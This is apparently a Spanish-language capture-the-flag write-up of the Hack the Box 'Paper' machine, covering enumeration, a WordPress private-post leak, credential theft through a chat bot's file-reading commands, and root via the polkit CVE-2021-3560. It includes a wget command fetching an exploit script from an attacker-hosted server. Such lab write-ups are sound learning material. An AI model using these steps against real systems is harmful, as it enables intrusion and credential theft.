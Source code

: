 ```yaml
---
layout      : post
title       : "Paper - Hack the Box"
author      : elc4br4
image       : assets/images/HTB/Paper-Hackthebox/paper.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


En esta ocasión tenemos una máquina Linux de dificultad fácil que requiere de un escaneo básico y enumeración para obtener un punto de apoyo en la máquina. La escalada de privilegios es un proceso relativamente simple y requirió usar la escalada de privilegios de Linux a través de la explotación de la vulnerabilidad CVE-2021–3560.

![](/assets/images/HTB/Paper-Hackthebox/rating-paper.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

Como siempre, comenzamos lanzando nmap para descubrir puertos abiertos.

```bash
nmap -p- -n -Pn --min-rate 5000 10.10.11.143 -sCV --open
```

![](/assets/images/HTB/Paper-Hackthebox/nmap.png)

<br>
Como vemos tenemos los puertos 80, 443 y 22

En el puerto 80 encuentro lo siguiente:

![](/assets/images/HTB/Paper-Hackthebox/web1.png)

En la página principal no hay nada interesante, lanzo gobuster y no encuentro nada relevante, ninguna ruta ni archivos con extensión…

Decido lanzar nikto para un escaneo más detallado y potente y encuentro esto:

`` nikto -h 10.10.11.143 ``

![](/assets/images/HTB/Paper-Hackthebox/nikto.png)

Tenemos un vhost que añado a al archivo hosts de mi máquina.

Accedemos desde el navegador al vhost y encontramos una web diferente, en concreto, un Wordpress.

![](/assets/images/HTB/Paper-Hackthebox/web2.png)

Cuando hablamos de Wordpress… Wpscan es la clave!!!

Lanzo wpscan bajo el siguiente comando

```bash 
wpscan --enumerate --url office.paper 
```

![](/assets/images/HTB/Paper-Hackthebox/wpscan.png)

Y además de los usuarios encuentro la versión de Wordpress

![](/assets/images/HTB/Paper-Hackthebox/wpscan2.png)

Lo siguiente que hago al saber la versión es buscar posibles vulnerabilidades en la versión Wordpress 5.2.3

![](/assets/images/HTB/Paper-Hackthebox/searchsploit.png)

Encuentro una vulnerabilidad que permite leer Posts Privados sin necesidad de estar autenticados en Wordpress.

![](/assets/images/HTB/Paper-Hackthebox/exploitdb.png)

Usando ciertos parámetros en la url podemos descubrir posts privados.

`` http://office.paper/?static=1&order=YYYYMMDD ``


![](/assets/images/HTB/Paper-Hackthebox/web3.png)


Donde encontramos un subdominio y una url.

Lo añadimos al archivo hosts, accedemos a la url y encontramos un formulario de registro.

![](/assets/images/HTB/Paper-Hackthebox/web4.png)


Me registro y accedo con las credenciales creadas.

![](/assets/images/HTB/Paper-Hackthebox/web5.png)


Nos encontramos con una especie de chat, buscando encuentro un grupo llamado #general al que accedo.

![](/assets/images/HTB/Paper-Hackthebox/web6.png)


En el cual hay varios usuarios y lo que parece ser un bot (recyclops).

Leyendo los mensajes del grupo, encuentro varios mensajes enviados por el bot (recyclops) que dicen lo siguiente:


![](/assets/images/HTB/Paper-Hackthebox/web7.png)
<br>
<br>

![](/assets/images/HTB/Paper-Hackthebox/web8.png)

Este bot nos permite ejecutar varios comandos:

``` code
    list → listar archivos

    file → leer archivos
```

Asique procedo a probar los comandos y a ver que respuesta me devuelve:

![](/assets/images/HTB/Paper-Hackthebox/web9.png)

Voy listando poco a poco hasta que encuentro lo siguiente:

![](/assets/images/HTB/Paper-Hackthebox/web10.png)


Voy leyendo diferentes archivos hasta que encuentro dentro de la ruta ../hubot un archivo .env

![](/assets/images/HTB/Paper-Hackthebox/web11.png)

Y encuentro credenciales que podrían ser válidas para conectarnos por ssh

Al probarlas, no funciona … Pero me fijé en que el propietario de los archivos del servidor es dwight.

Pruebo con dwight y consigo acceder, conexión ssh exitosa.

`` ssh dwight@10.10.11.143 `` 

Una vez estamos dentro podremos leer la flag user.txt

A continuación me dispongo a escalar privilegios y lanzo el famoso **linpeas.sh** para buscar posibles formas de escalar.

Y me encuentro con una posible vulnerabilidad

![](/assets/images/HTB/Paper-Hackthebox/cve.png)

  **CVE-2021–3560** permite que un atacante local sin privilegios obtenga privilegios de root mediante el uso de polkit
<br>
<br>

## #REFERENCIAS

    https://github.com/Almorabea/Polkit-exploit

    https://www.hackplayers.com/2021/06/escalado-de-privilegios-mediante-polkit.html

Encuentro el exploit aquí, lo descargo y mediante el uso de un servidor de python3 me lo descargo desde la máquina.


Máquina atacante

```bash
 python3 -m http.server 8080 
 ```


Máquina Víctima (ssh)

```bash
 wget http://<ip-tun0>:<8080>/exploitname.py 
 ```
<br>

![](/assets/images/HTB/Paper-Hackthebox/exploit.png)

<br>

Le asigno permisos, lo ejecuto y listo, somos root y podemos leer la flag root.txt.

![](/assets/images/HTB/Paper-Hackthebox/exploit2.png)

<br>

![](/assets/images/HTB/Paper-Hackthebox/exploit3.png)

<br>

![](/assets/images/HTB/Paper-Hackthebox/root.png)


